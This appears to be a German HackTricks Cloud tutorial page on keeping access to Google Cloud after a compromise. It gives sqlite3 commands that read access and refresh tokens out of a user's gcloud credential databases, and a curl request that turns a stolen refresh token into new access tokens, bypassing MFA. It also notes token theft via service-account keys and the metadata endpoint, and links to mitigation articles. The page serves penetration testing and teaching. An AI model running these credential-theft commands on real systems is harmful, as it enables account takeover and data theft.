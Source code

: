 # GCP - Nicht-svc Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys senden.

</details>

Diese Techniken sind nützlich, sobald Sie auf irgendeine Weise einige GCP-Anmeldeinformationen oder eine Maschine in einer GCP-Umgebung kompromittiert haben.

## Token-Hijacking

### Authentifizierter Benutzer

Wenn es Ihnen gelingt, auf den Startordner eines **authentifizierten Benutzers in GCP** zuzugreifen, können Sie standardmäßig **Token für diesen Benutzer erhalten, solange Sie möchten**, ohne sich authentifizieren zu müssen und unabhängig von der Maschine, von der aus Sie seine Token verwenden, selbst wenn der Benutzer MFA konfiguriert hat.

Dies liegt daran, dass Sie standardmäßig das Auffrischungstoken verwenden können, um neue Tokens zu generieren.

Um das **aktuelle Token** eines Benutzers zu erhalten, können Sie Folgendes ausführen:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Überprüfen Sie auf dieser Seite, wie Sie **dieses Token direkt mit gcloud verwenden können**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Um die Details zum **Generieren eines neuen Zugriffstokens** zu erhalten, führen Sie aus:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Um einen neuen aktualisierten Zugriffstoken mit dem **Auffrischungstoken**, der Client-ID und dem Client-Geheimnis zu erhalten, führen Sie Folgendes aus:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die Gültigkeit der Aktualisierungstoken kann in **Admin** > **Sicherheit** > **Google Cloud-Sitzungssteuerung** verwaltet werden und standardmäßig ist sie auf 16 Stunden eingestellt, obwohl sie auf "nie ablaufen" gesetzt werden kann:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Dienstkonten

Genau wie bei authentifizierten Benutzern, wenn es Ihnen gelingt, die **private Schlüsseldatei** eines Dienstkontos zu **kompromittieren**, werden Sie in der Regel **Zugriff darauf haben, solange Sie möchten**.\
Wenn Sie jedoch das **OAuth-Token** eines Dienstkontos stehlen, kann dies noch interessanter sein, denn auch wenn diese Tokens standardmäßig nur eine Stunde lang gültig sind, bleibt das **OAuth-Token gültig, bis es abläuft**, selbst wenn das Opfer den privaten API-Schlüssel löscht.

### Metadaten

Natürlich, solange Sie sich in einer Maschine innerhalb der GCP-Umgebung befinden, werden Sie in der Lage sein, auf das Dienstkonto zuzugreifen, das mit dieser Maschine verbunden ist, indem Sie den Metadaten-Endpunkt kontaktieren (beachten Sie, dass die OAuth-Token, auf die Sie über diesen Endpunkt zugreifen können, normalerweise durch Berechtigungen eingeschränkt sind).

### Abhilfemaßnahmen

Einige Abhilfemaßnahmen für diese Techniken werden unter [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) erläutert.

## Referenzen

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen** oder **HackTricks als PDF herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
